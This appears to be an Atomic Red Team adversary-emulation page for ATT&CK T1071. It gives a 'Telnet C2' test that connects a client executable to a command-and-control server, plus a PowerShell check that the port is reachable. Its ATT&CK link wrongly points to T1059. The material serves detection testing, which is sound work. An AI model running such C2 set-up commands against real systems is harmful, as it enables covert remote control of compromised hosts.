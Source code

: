 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---autoit)


<br/>

## Atomic Test #1 - Telnet C2
Establish connection between compromised client to C2 server via Telnet

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | localhost |
| server_port | C2 server port | number | 23 |
| client_path | Path to telnet agent | path | PathToAtomicsFolder\T1071\src\telnet_client.exe |


#### Attack Commands: Run with `powershell`! 


```cmd
.\#{client_path} #{server_ip} --port #{server_port}
```

#### Dependencies Run with `powershell`!:
Start C2 server with telnet_server.exe in src folder. You can either start it on localhost or other IP.

```powershell
.\telnet_server.exe server_ip --port port_number
```

##### Description: C2 Server must be reachable.
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}

if ($connection.TcpTestSucceeded) {
          Write-Output "#{server_ip} Port #{server_port} is reachable."
          exit 0
} else {
          Write-Output "#{server_ip} Port #{server_port} is unreachable."
          exit 1
}
```


<br/>
<br/>
